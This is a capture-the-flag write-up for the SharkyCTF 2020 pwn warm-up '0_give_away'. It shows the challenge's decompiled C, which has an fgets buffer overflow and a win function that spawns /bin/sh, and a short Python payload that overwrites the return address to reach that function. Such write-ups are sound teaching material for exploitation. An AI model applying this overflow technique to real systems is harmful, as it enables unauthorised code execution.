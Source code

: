 # SharkyCTF 

🇫🇷  Sat, May 09, 2020 00:01 — Sun, May 10, 23:59 UTC 

# Pwn

## 0_give_away (161pt)
### Description

> Home sweet home. 
>
> Creator: Hackhim


### Attachment

[0_give_away](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/SharkyCTF-2020/pwn/0_give_away/0_give_away)

### Analysis

A warm up task 

```c
void vuln(void){
    char *s;
    fgets(&s, 0x32, _reloc.stdin);
    return;
}
void win_func(void){
    execve("/bin/sh", 0, 0);
    return;
}
```

> buffer overflow, backdoor function

### Solution

Overwrite return address with address of `win` function

```python
offset = 40
payload = 'A'*offset
payload += p64(0x04006A7)
sl(payload)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/SharkyCTF-2020/pwn/0_give_away) 
